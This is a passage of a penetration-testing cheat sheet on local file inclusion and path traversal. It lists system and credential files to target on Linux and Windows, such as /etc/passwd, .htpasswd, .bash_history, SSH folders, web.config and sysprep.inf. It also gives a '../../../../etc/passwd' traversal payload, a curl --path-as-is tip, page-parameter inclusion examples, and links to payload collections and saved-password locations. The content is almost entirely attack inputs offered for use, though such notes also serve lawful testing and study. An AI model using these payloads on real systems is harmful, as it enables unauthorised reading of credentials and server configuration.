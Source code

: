 <pre class="language-bash"><code class="lang-bash">/etc/passwd
/etc/lsb-release
/etc/apache2/.htpasswd
/etc/group
/proc/sched_debug --> processes
/proc/net/fib_trie --> network addresses
<strong>/proc/net/tcp --> see internal ports in hex, convert them
</strong>/etc/exports #Check NFS section  

../../../../etc/passwd
#curl -> add --path-as-is to curl in order to keep ../../

c:/boot.ini
c:/inetpub/logs/logfiles
c:/inetpub/wwwroot/global.asa
c:/inetpub/wwwroot/index.asp
c:/inetpub/wwwroot/web.config
c:/sysprep.inf
c:/windows/system32/drivers/etc/hosts

# INTERESTING FILES TO CHECK OUT
https://github.com/cyberheartmi9/PayloadsAllTheThings/tree/master/File%20Inclusion%20-%20Path%20Traversal#basic-lfi-null-byte-double-encoding-and-other-tricks
.bashrc, .bash_history, .ssh_foler, /etc/hosts...

# ALSO TRY TO POINT TO THE RESOURCES OF THE WEBSITE (INTERNAL WEBPAGES).
# FOR EXAMPLE, IF THERE IS A DASHBOARD PHP WEB, TRY THIS:
?page=dashboard.php
?page=dashboard
</code></pre>

## Windows

{% hint style="info" %}
Default web directory _\inetpub\wwwroot_
{% endhint %}

<table data-header-hidden><thead><tr><th>Interesting Windows files and its locations</th><th data-hidden></th><th data-hidden></th></tr></thead><tbody><tr><td><a href="https://www.nirsoft.net/articles/saved_password_location.html">https://www.nirsoft.net/articles/saved_password_location.html</a></td><td></td><td></td></tr><tr><td><a href="https://github.com/soffensive/windowsblindread/blob/master/windows-files.txt">https://github.com/soffensive/windowsblindread/blob/master/windows-files.txt</a></td><td></td><td></td></tr><tr><td><a href="https://soffensive.github.io/posts/web-app-sec/2018-06-19-exploiting-blind-file-reads-path-traversal-vulnerabilities-on-microsoft-windows-operating-systems/">https://soffensive.github.io/posts/web-app-sec/2018-06-19-exploiting-blind-file-reads-path-traversal-vulnerabilities-on-microsoft-windows-operating-systems/</a></td><td></td><td></td></tr></tbody></table>
